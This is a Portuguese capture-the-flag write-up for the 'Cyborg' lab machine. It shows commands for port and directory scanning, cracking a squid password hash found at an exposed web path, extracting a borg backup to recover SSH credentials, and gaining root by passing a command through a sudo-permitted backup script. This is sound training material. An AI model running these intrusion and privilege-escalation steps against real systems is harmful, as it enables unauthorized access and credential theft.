 # Cyborg

* ### Scan de portas - Verificando quais portas estão abertas.
  
```bash
rustscan -a 10.10.124.91
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4cba628e-81c4-45c4-8a2c-90bf8db115a9)

![image](https://github.com/lufffe/Writeups/assets/90646635/714272e1-f712-47f1-810c-bfdcb8b2c5f4)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80 10.10.124.91
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6b1ef517-8b4b-493d-a757-c1b60a696301)

* ### Scan Arquivos e Diretorios.
```bash
gobuster dir -u http://10.10.124.91 -w ~/common.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/25acc6c1-3b75-4536-80b4-65a038a28d7e)

* ### Olhando o Http.
![image](https://github.com/lufffe/Writeups/assets/90646635/ca191423-c93e-4a57-b8e3-943d08208646)

* ### Credenciais.
http://10.10.124.91/etc/squid/passwd

![image](https://github.com/lufffe/Writeups/assets/90646635/a66e5032-dfea-4181-b887-760695099863)

```bash
john --wordlist=~/rockyou.txt hash
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9f6b321e-7ad4-489c-affe-e80ffbed412b)

* ### Baixe o arquivo no link - no menu download
http://10.10.124.91/admin/

* ### Extraindo arquivo baixado.
```bash
7z x archive.tar
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ddcd0615-33ba-4a4d-8169-c5577b5005ff)

* ### Lendo arquivo encontrado.
```bash
┌──(luffe㉿Kalizin)-[~/…/home/field/dev/final_archive]
└─$ cat README
```
![image](https://github.com/lufffe/Writeups/assets/90646635/929760ea-35d0-4522-81a2-aa34ef2450dd)

* ### Extraindo arquivo do borg.
```bash
borgbackup extract home/field/dev/final_archive::music_archive
```
![image](https://github.com/lufffe/Writeups/assets/90646635/59c33c46-18b7-404d-a763-6c285b0352ad)

* ### Lendo arquivo nas pastas do usário Alex.
```bash
cat note.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9e7ac6e3-af64-403d-9c71-655c61ed748d)

* ### Acessando via SSH com credenciais encontradas.
```bash
ssh alex@10.10.124.91
```
* ### Flag Usuário
```bash
alex@ubuntu:~$ cat user.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/98114ca8-09aa-47a3-9aca-b3f1d9d69ba1)

```bash
alex@ubuntu:~$ sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/2203909b-308f-46ff-84db-765fba1273d8)

```bash
alex@ubuntu:~$ ls -la /etc/mp3backups/backup.sh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/cc27a0cf-8429-4953-a2fa-4aa15d3aaf60)

* ### Flag Root
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
![image](https://github.com/lufffe/Writeups/assets/90646635/90ccc2af-68aa-4c27-8bb6-8198be3e2b57)

